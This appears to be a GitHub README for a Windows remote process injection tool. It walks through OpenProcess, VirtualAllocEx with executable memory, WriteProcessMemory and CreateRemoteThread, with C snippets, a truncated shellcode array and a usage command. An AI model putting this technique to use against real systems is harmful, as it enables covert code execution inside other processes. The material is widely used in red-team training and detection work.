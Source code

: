 # Remote Process Injection
## Overview
This tool is designed to inject shellcode into a remote process running on a Windows system. It takes the Process ID (PID) of the target process as a command-line argument, allocates memory in the target process, writes the shellcode to the allocated memory, and creates a remote thread to execute the shellcode.

## Usage
```
remoteprocessinjection.exe <PID>

```
<PID>: The Process ID of the target process where the shellcode will be injected.

## Prerequisites
.Administrator privileges on the system.
.The tool must be executed on a Windows operating system.
.The target process must be accessible and should allow PROCESS_ALL_ACCESS.
## Key Components

### Shellcode
The my_shellcode array contains the machine code to be executed in the target process. This is where the user should place their custom shellcode.
```c
char my_shellcode[] = {
    "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
    // ... (rest of the shellcode)
    "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5"
};
```

### Opening the Target Process
The OpenProcess function is used to obtain a handle to the target process using the specified PID.

``` c
hProcess = OpenProcess(PROCESS_ALL_ACCESS, TRUE, PID);
```

### Allocating Memory in the Target Process
Memory is allocated in the target process using VirtualAllocEx.

```c
execution_memory = VirtualAllocEx(hProcess, NULL, length, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
```

### Writing Shellcode to the Allocated Memory
The shellcode is written into the allocated memory space using WriteProcessMemory

``` c
if (!WriteProcessMemory(hProcess, execution_memory, my_shellcode, length, NULL)) {
    // Error handling
}
```
### Creating a Remote Thread
A remote thread is created to execute the shellcode in the target process using CreateRemoteThread.

``` c
hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)execution_memory, NULL, 0, 0);
```

## Error Handling
The tool checks for errors at each step (opening the process, allocating memory, writing to memory, creating a thread) and prints appropriate error messages with error codes using GetLastError.

## Example
To inject shellcode into a process with PID 1234:

``` cmd
remoteprocessinjection.exe 1234
```
